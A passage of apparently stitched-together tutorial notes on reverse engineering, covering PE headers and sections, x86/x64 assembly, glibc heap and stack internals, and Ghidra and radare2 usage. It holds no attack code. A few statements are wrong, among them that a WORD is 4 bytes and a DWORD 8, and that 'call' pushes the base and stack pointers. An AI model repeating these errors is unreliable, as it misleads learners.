BYTE MinorLinkerVersion;
DWORD SizeOfCode;
DWORD SizeOfInitializedData;
DWORD SizeOfUninitializedData;
DWORD AddressOfEntryPoint;
DWORD BaseOfCode;
DWORD BaseOfData;
// NT additional fields.
DWORD ImageBase;
DWORD SectionAlignment;
DWORD FileAlignment;
WORD MajorOperatingSystemVersion;
WORD MinorOperatingSystemVersion;
WORD MajorImageVersion;
WORD MinorImageVersion;
WORD MajorSubsystemVersion;
WORD MinorSubsystemVersion;
DWORD Win32VersionValue;
DWORD SizeOfImage;
DWORD SizeOfHeaders;
DWORD CheckSum;
WORD Subsystem;
WORD DllCharacteristics;
DWORD SizeOfStackReserve;
DWORD SizeOfStackCommit;
DWORD SizeOfHeapReserve;
DWORD SizeOfHeapCommit;
DWORD LoaderFlags;
DWORD NumberOfRvaAndSizes;
IMAGE_DATA_DIRECTORY DataDirectory[IMAGE_NUMBEROF_DIRECTORY_ENTRIES];
} IMAGE_OPTIONAL_HEADER32, *PIMAGE_OPTIONAL_HEADER32;
typedef struct _IMAGE_OPTIONAL_HEADER64 {
// Standard fields
WORD Magic;
BYTE MajorLinkerVersion;
BYTE MinorLinkerVersion;
DWORD SizeOfCode;
DWORD SizeOfInitializedData;
DWORD SizeOfUninitializedData;
DWORD AddressOfEntryPoint;
DWORD BaseOfCode;
// NT additional fields
ULONGLONG ImageBase;
DWORD SectionAlignment;
DWORD FileAlignment;
WORD MajorOperatingSystemVersion;
WORD MinorOperatingSystemVersion;
WORD MajorImageVersion;
WORD MinorImageVersion;
WORD MajorSubsystemVersion;
WORD MinorSubsystemVersion;
DWORD Win32VersionValue;
DWORD SizeOfImage;
DWORD SizeOfHeaders;
DWORD CheckSum;
WORD Subsystem;
WORD DllCharacteristics;
ULONGLONG SizeOfStackReserve;
ULONGLONG SizeOfStackCommit;
ULONGLONG SizeOfHeapReserve;
ULONGLONG SizeOfHeapCommit;
DWORD LoaderFlags;
DWORD NumberOfRvaAndSizes;
IMAGE_DATA_DIRECTORY DataDirectory[IMAGE_NUMBEROF_DIRECTORY_ENTRIES];
} IMAGE_OPTIONAL_HEADER64, *PIMAGE_OPTIONAL_HEADER64;
A concept which PE files heavily rely on are RVAs or Relative Virtual Addresses. An RVA represents an offset from the beginning of the Image Base, which is the location where the PE file was loaded into memory. In order to turn an RVA into an absolute address, you need to add the RVA to the image base.
The Optional Header begins with a few standard members which are remnants of the COFF file format. The rest of the fields are Microsoft's PE extension.
Magic is a field which describes the state of the file. This member is what determines whether the image is 32-bit or 64-bit - IMAGE_FILE_HEADER.Machine is ignored by the Windows PE loader. Three common values for this field are listed by Microsoft:
| Value | Meaning |
|---|---|
0x10b | The file is a PE32 image. |
0x20b | The file is a PE32+ image. |
0x107 | The file is a ROM image. |
MajorLinkerVersion and MinorLinkerVersion contain the major and minor versions of the linker used to build the PE file.
SizeOfCode holds the size of the code (.text) section, or the sum of the sizes of all code sections, if more than one is present.
SizeOfInitializedData contains the size of the initialized data (.data) section, or the sum of the sizes of all initialised data sections, if more than one is present.
SizeOfUninitializedData contains the size of the uninitialized data (.bss) section, or the sum of the sizes of all uninitialised data sections, if more than one is present.
AddressOfEntryPoint stores an RVA of the file's entry point when loaded into memory. For program images this field points to the starting address and for device drivers it points to an initialisation function. An entry point is optional for DLLs. If an entry point is missing, this field is set to 0.
BaseOfCode is an RVA to the start of the code section when the image is loaded into memory.
BaseOfData (PE32 only) is only present in 32-bit executables and points to the start of the data section when the image is loaded into memory.
ImageBase is a field which holds the preferred load address for the file in memory and must a multiple of 64 000. This field is pretty much always ignored due to a multitude of reasons such as ASLR.
SectionAlignment holds the value to which sections are aligned in memory. All sections must be aligned to a multiple of this value. This field defaults to the architecture's page size and cannot be less than FileAlignment.
FileAlignment represents the section alignment on disk rather than in memory. If the size of the section data is less than this value, it gets padded with zeros. Only integral powers of 2 are allowed for this value and it should range between 512 and 64 000.
MajorOperatingSystemVersion, MinorOperatingSystemVersion, MajorImageVersion, MinorImageVersion, MajorSubsystemVersion and MinorSubsystemVersion specify the major and minor versions for the required operating system, the major and minor versions of the image file, and the major and minor versions of the subsystem to be used.
Win32VersionValue is a reserved field which should be set to 0.
SizeOfImage represents the number of bytes that the file occupies but is rounded to a multiple of SectionAlignment.
SizeOfHeaders describes the combined size (in bytes) of the DOS Stub, NT Headers, and section headers, rounded to a multiple of FileAlignment.
CheckSum is a checksum of the file which is used to validate the PE at load time.
Subsystem specifies the Windows subsystem required to run the image.
DLLCharacteristics is a flag field and a terrible misnomer, since it is present in all PE files.
SizeOfStackReserve, SizeOfStackCommit, SizeOfHeapReserve and SizeOfHeapCommit describe the amount to reserve and commit for the stack and the heap, respectively.
LoaderFlags is a reserved field which should be set to 0.
NumberOfRvaAndSizes contains the size of the Data Directories array.
DataDirectory is an array of IMAGE_DATA_DIRECTORY structures and is what makes the Optional Header of variable size.
The Optional Header can be inspected by means of PE-Bear:

Introduction
During compilation, the compiler assumes that the PE file will be loaded at a certain base address, which is stored in IMAGE_OPTIONAL_HEADER.ImageBase. The compiler may take some addresses during compilation and make them absolute by hardcoding them based on the ImageBase. Unfortunately, the file is rarely loaded at its desired image base and so these addresses will be invalidated. Therefore, the linker needs to perform relocations - it needs to fix those absolute addresses based on the actual image base.
The Relocation Table
A list of these ImageBase-based addresses will be generated and stored in the relocation table. This is a Data Directory within the .reloc section and is divided into blocks, with each block representing the base relocations for a 4KB page and where each block must be aligned to a value of 32.
Each block begins with an IMAGE_BASE_RELOCATION structure and is followed by any number of offset field entries. This struct holds the RVA of the block as well as its size.
typedef struct _IMAGE_BASE_RELOCATION {
DWORD VirtualAddress;
DWORD SizeOfBlock;
} IMAGE_BASE_RELOCATION;
typedef IMAGE_BASE_RELOCATION UNALIGNED * PIMAGE_BASE_RELOCATION;
An offset field entry is represented by a WORD, with the first 4 bits specifying the relocation type (which you can find on Microsoft's documentation) and the last 12 bits storing an offset from the VirtualAddress field of the corresponding relocation block.
The absolute address of the location that needs fixing then be obtained by adding the page RVA to the preferred image base and then adding the offset of the corresponding relocation (offset field) entry.
Relocations can also be inspected with PE-Bear:

Introduction
Sections are what make up the largest part of the PE file except for all the preceding headers. Some sections have reserved names which describe their purpose. A full list can be found on Microsoft's documentation under "Special Sections".
.textstores the programme's executable code..datacontains initialised data..bssholds uninitialised data..rdatacontains read-only initialised data..edataholds export tables..idatastores import tables..relochas relocation information..rsrccontains resources used by the program such as images or icons that are embedded..tlsis thread-local storage.
Section Header Table
The section header table lies between the Optional Header and the actual sections. Inside there is one Section Header entry for each section. Section headers are defined as follows in <winnt.h>:
// Section header format.
#define IMAGE_SIZEOF_SHORT_NAME 8
typedef struct _IMAGE_SECTION_HEADER {
BYTE Name[IMAGE_SIZEOF_SHORT_NAME];
union {
DWORD PhysicalAddress;
DWORD VirtualSize;
} Misc;
DWORD VirtualAddress;
DWORD SizeOfRawData;
DWORD PointerToRawData;
DWORD PointerToRelocations;
DWORD PointerToLinenumbers;
WORD NumberOfRelocations;
WORD NumberOfLinenumbers;
DWORD Characteristics;
} IMAGE_SECTION_HEADER, *PIMAGE_SECTION_HEADER;
Name is a byte array which holds the section name. Due to its size, section names are limited to 8 characters in length, however, it is possible to circumvent this in non-executable PEs by using a string table.
Misc - PhysicalAddress or VirtualSize, is a union field, meaning that it is either one or the other of its member fields. It represents the total size of the section when loaded into memory.
For executable images, VirtualAddress holds the offset from the beginning of the image to the beginning of the section in memory. For object files it contains the address of the section before relocations are applied.
SizeOfRawData stores the size of the section on disk and may be different from VirtualSize. This field must a multiple of IMAGE_OPTIONAL_HEADER.FileAlignment. If the section size is less than this value, then the section gets padded and this field is rounded to IMAGE_OPTIONAL_HEADER.FileAlignment. However, upon loading into memory, the section no longer is required to obey the file alignment and so only its contents are loaded. Therefore, SizeOfRawData will be less than VirtualSize. It is possible for the opposite to happen as well. For example, no space will be allocated on disk for uninitialised data, however, the section will be expanded during load-time to reserve space for this data.
PointerToRawData is a pointer to the first page of the section. For executables, it must be a multiple of IMAGE_OPTIONAL_HEADER.FileAlignment.
PointerToRelocations is a pointer to the beginning of the relocations for this section. For executables, this is set to 0.
PointerToLineNumbers is pointer to the beginning of COFF line-number entries for the section. Since COFF debugging information is deprecated, this field holds 0.
NumberOfRelocations stores the number of relocation entries for this section and is set to 0 for executable images.
NumberOfLinenumbers is another deprecated field, which stores 0, and represents the number of COFF line-number entries for the section.
Characteristics is a flags field which describes things like whether the section contains executable code, initialised/uninitialised data, etc.
The section headers can be inspected with PE-Bear:

Here, Raw Addr and Virtual Addr correspond to the IMAGE_SECTION_HEADER.PointerToRawData and IMAGE_SECTION_HEADER.VirtualAddress fields, respectively. Raw Size and Virtual Size correspond to IMAGE_SECTION_HEADER.SizeOfRawData and IMAGE_SECTION_HEADER.VirtualSize. The Characteristics fields gives us information about whether the section is read-only, writable, executable, etc.
Data Directories
Data Directories represent pieces of data located within the sections of the PE file and contain information useful to the programme loader. They are simples structs defined in <winnt.h>:
typedef struct _IMAGE_DATA_DIRECTORY {
DWORD VirtualAddress;
DWORD Size;
} IMAGE_DATA_DIRECTORY, *PIMAGE_DATA_DIRECTORY;
The first member, VirtualAddress is an RVA pointing to the beginning of the Data Directory, while Size holds the number of bytes that the Data Directory occupies. While this is true of all Data Directories, each Data Directory is handled differently based on its type:
// Directory Entries
#define IMAGE_DIRECTORY_ENTRY_EXPORT 0 // Export Directory
#define IMAGE_DIRECTORY_ENTRY_IMPORT 1 // Import Directory
#define IMAGE_DIRECTORY_ENTRY_RESOURCE 2 // Resource Directory
#define IMAGE_DIRECTORY_ENTRY_EXCEPTION 3 // Exception Directory
#define IMAGE_DIRECTORY_ENTRY_SECURITY 4 // Security Directory
#define IMAGE_DIRECTORY_ENTRY_BASERELOC 5 // Base Relocation Table
#define IMAGE_DIRECTORY_ENTRY_DEBUG 6 // Debug Directory
// IMAGE_DIRECTORY_ENTRY_COPYRIGHT 7 // (X86 usage)
#define IMAGE_DIRECTORY_ENTRY_ARCHITECTURE 7 // Architecture Specific Data
#define IMAGE_DIRECTORY_ENTRY_GLOBALPTR 8 // RVA of GP
#define IMAGE_DIRECTORY_ENTRY_TLS 9 // TLS Directory
#define IMAGE_DIRECTORY_ENTRY_LOAD_CONFIG 10 // Load Configuration Directory
#define IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT 11 // Bound Import Directory in headers
#define IMAGE_DIRECTORY_ENTRY_IAT 12 // Import Address Table
#define IMAGE_DIRECTORY_ENTRY_DELAY_IMPORT 13 // Delay Load Import Descriptors
#define IMAGE_DIRECTORY_ENTRY_COM_DESCRIPTOR 14 // COM Runtime descriptor
The above are values represent the indices for the Optional Header's DataDirectory array at which each type of Data Directory is located.
If both the VirtualAddress and Size fields are set to 0, then this particular Data Directory is unused.
Data Directories can be inspected under the Optional Header with PE-Bear:

Introduction
The DOS header is a 64-byte struct located at the beginning of a PE file. It is mainly a legacy structure and so most of its fields are only relevant to MS-DOS. The ones pertinent to PE files are e_magic and e_lfanew. The following struct is defined in <winnt.h>
typedef struct _IMAGE_DOS_HEADER { // DOS .EXE header
WORD e_magic; // Magic number
WORD e_cblp; // Bytes on last page of file
WORD e_cp; // Pages in file
WORD e_crlc; // Relocations
WORD e_cparhdr; // Size of header in paragraphs
WORD e_minalloc; // Minimum extra paragraphs needed
WORD e_maxalloc; // Maximum extra paragraphs needed
WORD e_ss; // Initial (relative) SS value
WORD e_sp; // Initial SP value
WORD e_csum; // Checksum
WORD e_ip; // Initial IP value
WORD e_cs; // Initial (relative) CS value
WORD e_lfarlc; // File address of relocation table
WORD e_ovno; // Overlay number
WORD e_res[4]; // Reserved words
WORD e_oemid; // OEM identifier (for e_oeminfo)
WORD e_oeminfo; // OEM information; e_oemid specific
WORD e_res2[10]; // Reserved words
LONG e_lfanew; // File address of new exe header
} IMAGE_DOS_HEADER, *PIMAGE_DOS_HEADER;
e_magic is a word, occupying 2 bytes, which identifies the file as an MS-DOS executable and always contains the value 0x5a4d, or MZ in ASCII.
e_lfanew is located at an offset of 0x3c from the start of the DOS header and holds an offset to the beginning of the NT headers, which is paramount to the PE loader on Windows.
The DOS header of a PE file can be inspected with PE-Bear:

Introduction
Immediately following the DOS header is the DOS Stub. This is a tiny portion of executable instructions which get executed instead of the programme when run in DOS mode. Its purpose is to print an error message that the programme cannot be run in DOS mode. It is possible to also alter the message displayed.
We can analyse the DOS stub with a disassembler:
0x0000000000000000: 0E push cs
0x0000000000000001: 1F pop ds
0x0000000000000002: BA 0E 00 mov dx, 0xe
0x0000000000000005: B4 09 mov ah, 9
0x0000000000000007: CD 21 int 0x21
0x0000000000000009: B8 01 4C mov ax, 0x4c01
0x000000000000000c: CD 21 int 0x21
The first two instructions set the code and data segments to the same value. Next, mov dx, 0xe moves the address, 0xe, of the string containing the error message into dx. The error message follows right after the stub instructions. At 0x7, interrupt 0x21 is invoked and its function is determined by the value that was moved into ah - in this case it will print a message. At the end, the same interrupt is invoked but this time with a different argument - 0x4c01. This ultimately tells the programme to exit with an error code of 1.
Introduction
This chunk of data is NOT part of a typical PE file. It is an undocumented structure which is only found in files built with the Visual Studio Toolset. It is located immediately after the DOS stub and before the NT headers and serves the purpose of outlining the Visual Studio tools and versions that were used to build the PE file. It is possible to completely zero out this part of the PE file without affecting it.
The Rich Header comprises a chunk of XOR-encrypted data. It begins with a signature, DanS, followed by three zero-ed DWORDs used for padding. Next are entries containing information about the Visual Studio tools used in the build process of the PE file. The entries are represented by DWORD pairs, where the high word of the first DWORD stores the product or type ID and the low word contains the build ID. The second DWORD is used for storing the use count for each tool.
At the end of the header is another signature, Rich, followed by a checksum. The checksum field is what serves as the XOR key.
The Rich Header is automatically parsed by PE-Bear and can be easily inspected:

Introduction
Program Anatomy
Instructions
Each program is comprised of a set of instructions which tell the CPU what operations it needs to perform. Different CPU architectures make use of different instruction sets, however, all of them boil down to two things - an opertation code (opcode) and optional data that the instruction operates with. These are all represented using bits - 1s and 0s.
mov
Moves the value inside one register to another:
mov rax, rdx
lea
Load effective address - this instruction calculates the address of its second operand and moves it into its first operand:
lea rdx, [rax+0x10]
This will move rax+0x10 inside rdx.
add
This instruction adds its operands and stores the result in its first operand:
add rax, rdx
sub
This instruction subtracts the second operand from the first and stores the result in its first operand
sub rax, 0x9
xor
It performs XOR-ing on its operands and stores the results into the first operand:
xor rdx, rax
The and and or are the same, but instead perform a binary AND and a binary OR operation, respectively.
push
Decreases the stack pointer (grows the stack) by 8 (4 on x86) bytes and stores the contents of its operand on the stack:
push rax
pop
Increases the stack pointer (shrinks the stack) by 8 (4 on x86) bytes and stores the popped value from the stack into its operand:
pop rax
jmp
Jumps to the address specified - used for redirecting code execution:
jmp 0x6A2B10
call
Used for invoking procedures. It first pushes the values of the base and stack pointers onto the stack and then jumps to the specified address. After the function is finished, a ret instruction is issued which restores the values of the stack and base pointers from the stack and continues execution from where it left off.
cmp
It compares the value of its two operands and sets the according flags depending on the result:
cmp rax, rdx
If rax < rdx, the zero flag is set to 0 and the carry flag is set to 1.
If rax > rdx, the zero flag is set to 0 and the carry flag is set to 0.
If rax = rdx, the zero flag is set to 1 and the carry flag is set to 0.
jz / jnz
jump-if-zero and jump-if-not-zero execute depending on the state of the zero flag.
Registers
Registers are value containers which reside on the CPU and not in RAM. They are small in size and some have special purposes. You may store both addresses and values in registers and depending on the instruction used the data inside will be interpreted in a different way - this is commonly called an addressing mode.
In x86 Intel assembly (i386), the registers are 32 bits (4 bytes) in size and some of them are reserved:
ebp - the base pointer, points to the bottom of the current stack frame
esp - the stack pointer, points to the top of the current stack frame
eip - the instruction pointer, points to the next instruction to be executed
The other registers are general purpose registers and can be used for anything you like:
eax, ebx, ecx, edx, esi, edi.
x64 AMD assembly (amd64) extends these 32-bit registers to 64-bit ones and denotes these new versions by replacing the initial e with an r: rbp, rsp, rip, rax, ... It is important to note that these are not different registers - eax and rax refer to the same space on the CPU, however, eax only provides access to the lower 32 bits of the 64-bit register. You can also get access to the lower 16 and 8 bits of the register using different names:
| 8 Byte Register | Lower 4 Bytes | Lower 2 Bytes | Lower Byte |
|---|---|---|---|
| rbp | ebp | bp | bpl |
| rsp | esp | sp | spl |
| rip | eip | ||
| rax | eax | ax | al |
| rbx | ebx | bx | bl |
| rcx | ecx | cx | cl |
| rdx | edx | dx | dl |
| rsi | esi | si | sil |
| rdi | edi | di | dil |
| r8 | r8d | r8w | r8b |
| r9 | r9d | r9w | r9b |
| r10 | r10d | r10w | r10b |
| r11 | r11d | r11w | r11b |
| r12 | r12d | r12w | r12b |
| r13 | r13d | r13w | r13b |
| r14 | r14d | r14w | r14b |
| r15 | r15d | r15w | r15b |
Each row contains names which refer to different parts of the same register. Note, you cannot access the lower 16 or 8 bits of the instruction pointer.
You might sometimes see WORD or DWORD being used in a similar context - WORD means 4 bytes and DWORD means 8 bytes.
Register Use in x64 Linux
Under x64 Linux, function arguments are passed via registers:
rdi: First Argument
rsi: Second Argument
rdx: Third Argument
rcx: Fourth Argument
r8: Fifth Argument
r9: Sixth Argument
The return value is store in rax (eax on 32-bit machines).
Register Dereferencing
Register dereferencing occurs when the value of the register is treated as an address to the actual data to be used, rather than the data itself. This means that addressed can be stored in registers and used later - this is useful when dealing with large data sizes.
For example,
mov rax, [rdx]
Will check the value inside rdx and treat it as an address - it will go to the location where this address points and get its data from there. It will then move this data into rax. If we hadn't used [], it would have treated the address in rdx simply as a value and moved it directly into rax.
The Heap
The heap is a memory region which allows for dynamic allocation. Memory on the heap is allotted at runtime and programs are permitted to freely request additional heap memory whenever it is required.
It is the program's job to request and relieve any heap memory only once. Failure to do so can result in undefined behaviour. In C, heap memory is usually allocated through the use of malloc and whenever the program is finished with this data, the free function must be invoked in order to mark the area as available for use by the operating system and/or other programs.
Heap memory can also be allocated by using malloc-compatible heap functions like calloc, realloc and memalign or in C++ using the corresponding new and new[] operators as well as their deallocation counterparts delete and delete[].
Heap Rules
- Do not read or write to a pointer returned by
mallocafter that pointer has been passed tofree. -> Can lead to use after free vulnerabilities. - Do not use or leak uninitialised information in a heap allocation. -> Can lead to information leaks or uninitialised data vulnerabilities.
- Do not read or write bytes after the end of an allocation. -> Can lead to heap overflow and read beyond bounds vulnerabilities.
- Do not pass a pointer that originated from
malloctofreemore than once. -> Can lead to double delete vulnerabilities. - Do not write bytes before the beginning of the allocation. -> Can lead to heap underflow vulnerabilities.
- Do not pass a pointer that did not originate from
malloctofree. -> Can lead to invalid free vulnerabilities. - Do not use a pointer returned by
mallocbefore checking if the function returnedNULL. -> Can lead to null-dereference bugs and sometimes arbitrary write vulnerabilities.
The implementation of the heap is platform specific.
The GLIBC Heap
The heap grows from lower to higher addresses.
Chunks
The heap manager allocates resources in the so-called chunks. These chunks are stored adjacent to each other and must be 8-byte aligned or 16-byte aligned on 32-bit and 64-bit systems respectively. In addition to this padding, each chunks contains metadata which provides information about the chunk itself. Consequently, issuing a request for memory allocation on the heap actually allocates more bytes than originally requested.
It is important to distinguish between in-use chunks and free (or previously allocated) chunks, since they have disparate memory layouts.
The following diagram outlines a chunk that is in use:

The size field contains the chunk size in bytes. The following three bits carry specific meaning:
- A (0x04) - Allocated arena. If this bit is 0, the chunk comes from the main arena and the main heap. If this bit is 1, the chunk comes from mmap'd memory and the location of the heap can be computed from the chunk's address.
- M (0x02) - If this bit is set, then the chunk was
mmap-ed and isn't part of a heap. Typically used for large allocations. - P (0x01) - If this bit is set, then the previous chunk should not be considered for coalescing and the
mchunkptrpoints to a previous chunk still in use
A free chunk looks a bit different:

The size and AMP fields carry on the same meaning as those in chunks that are in use. Free chunks are organised in linked or doubly linked lists called bins. The fwd and bck pointers are utilised in the implementation of those linked lists. Different types of bins exist for different purposes.
The top of the heap is by convention called the top chunk.
Memory Allocation on the Heap
Allocating from Free Chunks
When an application requests heap memory, the heap manager traverses the bins in search of a free chunk that is large enough to service the request. If such a chunk is found, it is removed from the bin, turned into an in-use chunk and then a pointer is returned to the user data section of the chunk.
Allocating from the Top Chunk
If no free chunk is found that can service the request, the heap manager must construct an entirely new chunk at the top of heap. To achieve this, it first needs to ascertain whether there is enough space at the top of the heap to hold the new chunk.
Requesting Additional Memory at the Top of the Heap from the Kernel
Once the free space at the top of the heap is used up, the heap manager will have to ask the kernel for additional memory.
On the initial heap, the heap manager asks the kernel to allocate more memory at the end of the heap by calling sbrk.On most Linux-based systems this function internally uses a system call called brk.
Eventuall, the heap will grow to its maximum size, since expanding it any further would cause it to intrude on other sections of the process' address space. In this case, the heap manager will resort to using mmap to map new memory for heap expansions.
If mmap also fails, then the process is unable to allocate more memory and malloc returns NULL.
Allocating Large Chunks
Large chunks get treated differently in their allocation. These are allocated off-heap through the direct use of mmap calls and this is reflected in the chunk's metadata by setting the M bit to 1. When such allocations are later returned to the heap manager via a call to free, the heap manager releases the entire mmap-ed region back to the system via munmap.
Different platforms have different default thresholds for what counts as a large chunk and what doesn't.
Arenas
Multithreaded applications require that internal data structures on the heap are protected from race conditions. In the past, the heap manager availed itself of a global mutex before every heap operation, however, significant performance issues arose as a result. Consequently, the concept of "arenas" was introduced.
Each arena consists of a separate heap which manages its own chunk allocation and bins. Although each arena still utilises a mutex for its internal operations, different threads can make use of different arenas to avoid having to wait for each other.
The initial (main) arena consists of a single heap and for single-threaded applications it is all there ever will exist. However, as more threads are spawned, new arenas are allocated and attached to them. Once all available arenas are being utilised by threads, the heap manager will commence creating new ones until a limit - 2 * Number of CPU cores for 32-bit and 8 * Number of CPU cores for 64-bit processes - is reached. Afterwards, multiple threads will be forced to share the same arena.
Bins
Free chunks are organised in the so-called bins which are essentially linked lists. For performance reasons different types of bins exist. There are 62 small bins, 63 large bins, 1 unsorted bin, 10 fast bins and 64 tcache bins per thread. The last two appeared later and are built on top of the first three.
Pointers to the small, large, and unsorted bins are stored in the same array in the heap manager:
BIN[0] -> invalid (unused)
BIN[1] -> unsorted bin
BIN[2] to BIN[63] -> small bins
BIN[64] to BIN[126] -> large bins
Small Bins
There are 62 small bins and each of them stores chunks of a fixed size. Each chunk with a size less than 512 bytes on 32-bit systems and 1024 bytes on 64-bit systems has a corresponding small bin. Small bins are sorted by default due to the fixed size of their elements and Insertion and removal of entries on these bins is incredibly fast.

Large Bins
There are 63 large bins and they resemble small bins in their operation but store chunks of different sizes. Consequently, insertions and removal of entries on these lists is slower, since the entire bin has to be traversed in order to find a suitable chunk.
There is a different number of bins allocated for specific chunk size ranges. The size of the chunk size range begins at 64 bytes - there are 32 bins all of which shift the range of chunk sizes they store by 64 from the previous bin. Following are 16 bins which shift the range by 512 bytes and so on.
In essence:
- Bin 1 -> stores chunks of sizes 512 - 568 bytes;
- Bin 2 -> stores chunks of sizes 576 - 632 bytes;
- ...
There are:
| Number of Bins | Spacing between Bins |
|---|---|
| 32 | 64 |
| 16 | 512 |
| 8 | 4096 |
| 4 | 32768 |
| 2 | 262144 |
| 1 | Remaining chunk sizes |
Unsorted Bins
There is a single unsorted bin. Chunks from small and large bins end up directly in this bin after they are freed. The point of the unsorted bin is to speed up allocations by serving a sort of cache. When malloc is invoked, it will first traverse this bin and see if it can immediately service the request. If not, it will move onto the small or large bins respectively.
Fast Bins
Fast bins provide a further optimisation layer. Recently released small chunks are put in fast bins and are not initially merged with their neighbours. This allows for them to be repurposed forthwith, should a malloc request for that chunk size come very soon after the chunk's release. There are 10 fast bins, covering chunks of size 16, 24, 32, 40, 48, 56, 64, 72, 80, and 88 bytes plus chunk metadata.
Fast bins are implemented as singly linked lists and insertions and removals of entries in them are really fast. Periodically, the heap manager consolidates the heap - chunks in the fast bins are merged with the abutting chunks and inserted into the unsorted bin.
This consolidation occurs when a malloc request is issued for a size that is larger than a fast bin can serve (chunks over 512 bytes on 32-bit systems and over 1024 bytes on 64-bit systems), when freeing a chunk larger than 64KB or when malloc_trim or mallopt is invoked.
TCache Bins
A new caching mechanism called tcache (thread local caching) was introduced in glibc version 2.26 back in 2017.
The tcache stores bins of fixed size small chunks as singly linked lists. Similarly to a fast bin, chunks in tcache bins aren't merged with adjoining chunks. By default, there are 64 tcache bins, each containing a maximum of 7 same-sized chunks. The possible chunk sizes range from 12 to 516 bytes on 32-bit systems and from 24 to 1032 bytes on 64-bit systems.
When a chunk is freed, the heap manager checks if the chunk fits into a tcache bin corresponding to that chunk size. If the tcache bin for this size is full or the chunk is simply too big to fit into a tcache bin, the heap manager obtains a lock on the arena and proceeds to comb through other bins in order to find a suitable one for the chunk.
When malloc needs to service a request, it first checks the tcache for a chunk of the requested size that is available and should such a chunk be found, malloc will return it without ever having to obtain a lock. If the chunk too big, malloc continues as before.
A slightly different strategy is employed if the requested chunk size does have a corresponding tcache bin, but that bin is simply full. In that case, malloc obtains a lock and promotes as many heap chunks of the requested size to tcache chunks, up to the tcache bin limit of 7. Subsequently, the last matching chunk is returned.
malloc and free
Allocation
First, every allocation exists as a memory chunk which is aligned and contains metadata as well as the region the programmer wants. When a programmer requests memory from the heap, the heap manager first works out what chunk size the allocation request corresponds to, and then searches for the memory in the following order:
- If the size corresponds with a tcache bin and there is a
tcachechunk available, return that immediately. - If the request is huge, allocate a chunk off-heap via
mmap. - Otherwise obtain the arena heap lock and then perform the following steps, in order:
- Try the fastbin/smallbin recycling strategy
- If a corresponding fast bin exists, try and find a chunk from there (and also opportunistically prefill the tcache with entries from the fast bin).
- Otherwise, if a corresponding small bin exists, allocate from there (opportunistically prefilling the tcache as we go).
- Resolve all the deferred frees - Otherwise merge the entries in the fast bins and move their consolidated chunks to the unsorted bin. - Go through each entry in the unsorted bin. If it is suitable, return it. Otherwise, put the unsorted entry on its corresponding small/large bin as we go (possibly promoting small entries to the tcache).
- Default back to the basic recycling strategy
- If the chunk size corresponds with a large bin, search the corresponding large bin now.
- Create a new chunk from scratch
- Otherwise, there are no chunks available, so try and get a chunk from the top of the heap.
- If the top of the heap is not big enough, extend it using
sbrk. - If the top of the heap can’t be extended because we ran into something else in the address space, create a discontinuous extension using
mmapand allocate from there
- If all else fails, return
NULL.
- Try the fastbin/smallbin recycling strategy
Deallocation
- If the pointer is
NULL, do nothing. - Otherwise, convert the pointer back to a chunk by subtracting the size of the chunk metadata.
- Perform a few sanity checks on the chunk, and abort if the sanity checks fail.
- If the chunk fits into a tcache bin, store it there.
- If the chunk has the
Mbit set, give it back to the operating system viamunmap. - Otherwise we obtain the arena heap lock and then:
- If the chunk fits into a fastbin, put it on the corresponding fastbin.
- If the chunk size is greater than 64KB, consolidate the fastbins immediately and put the resulting merged chunks on the unsorted bin.
- Merge the chunk backwards and forwards with neighboring freed chunks in the small, large, and unsorted bins.
- If the resulting chunk lies at the top of the heap, merge it into the top chunk.
- Otherwise store it in the
unsorted bin.
The Stack
The stack is a place in memory. It's a Last-In-First-Out (LIFO) data structure, meaning that the last element to be added will be the first to get removed. Each process has access to its own stack which isn't bigger than a few megabytes. Adding data to the stack is called pushing onto the stack, whilst removing data is called popping off the stack. Although the location of the added or removed data is fixed (it's always to or from the top of the stack), existing data can still be read or written to arbitrarily.
A special register is used for keeping track of the top of the stack - the stack pointer or rsp. When pushing data, the stack pointer diminishes, and when removing data, the stack pointer augments. This is because the stack grows from higher to lower memory addresses.

Stack Frames
When a function is invoked, a stack frame is constructed. First, the function's arguments which do not fit into the registers are pushed on the stack, then the return address is also pushed. Following this, the value of a special register known as the base pointer (rbp) is saved onto the stack and the value inside the register is then updated to point to the location on the stack where we saved the base pointer.
From then on, the stack pointer is used for allocating local data inside the function and the base pointer is used for accessing this data.
long func(long a, long b, long c, long d,
long e, long f, long g, long h)
{
long x = a * b * c * d * e * f * g * h;
long y = a + b + c + d + e + f + g + h;
long z = otherFunc(x, y);
return z + 20;
}

Sometimes, the base pointer might be completely absent in optimised programs because compilers are good enough in keeping track of offsets directly from the stack pointer.
Introduction
Ghidra is an open-source framework for reverse engineering developed by the NSA. It groups binaries into projects which can be shared amonst multiple people.
Installation
To install Ghidra, you can run sudo apt install ghidra.
Creating a Project
- File -> New Project
- Non-Shared Project
- Select Directory
- Name the Project

Loading a Binary
-
File -> Import File

-
Select the binary you want to import
-
Ghidra will automatically detect certain information about the file

-
After importing, Ghidra will display an Import Results Summary containing information about the binary

-
Initial Analysis
Double-clicking on a program will open it in the Code Browser. A prompt will appear for analysing the binary. Ghidra will attempt to create and label functions, as well as identify any cross-references in memory. Once the binary has been analysed you will be presented with the following screen:
Introduction
radare2 is an open-source framework for reverse engineering. The framework includes multiple tools which all work in tandem in order to aid in the analysis of binary files.
It uses short abbreviations for its commands - single letters - and many of its commands have subcommands which are also expressed as single letters. Luckily, you can always append a ? to a specific command in order to view its subcommands and what they do.
To quit radare2, use the q command.
Loading a Binary
You can load a binary by invoking the r2 command. You might sometimes need to also add the -e io.cache=true option in order to fix relocations in disassembly.

Analysis
aaa- analyse the binary
afl- list the analysed functions
axt <function>- list all the places where a function is called. Note, you need to use the flag name that redare automatically creates for funtions afteraaa.
Binary Info
-
i- display file information
-
ie- find the program's entry point
-
iM- find the program's main function
-
iz- pull the hard-coded strings from the executable (only the data sections), useizzto get the strings from the entire binary
-
Flags
Flags resemble bookmarks. They associate a name with a given offset in a file.
Create a new flag
f <name> @ offset
You can also remove a flag by appending - to the command:
f-<name>
List available flags - f:

Rename a flag
fr <old name> <new name>
Local Flags
Flag names should be unique for addressing reasons. However, it is often the case that you need to have simple and ubiquitous names like loop or return. For this purpose exist the so-called "local" flags, which are tied to the function where they reside. It is possible to add them using f. command:
Flag Spaces
Flags can be grouped into flag spaces - is a namespace for flags, grouping together similar flags. Some flag spaces include sections, registers, symbols. These are managed with the fs command.
[0x00001080]> fs?
Usage: fs [*] [+-][flagspace|addr] # Manage flagspaces
| fs display flagspaces
| fs* display flagspaces as r2 commands
| fsj display flagspaces in JSON
| fs * select all flagspaces
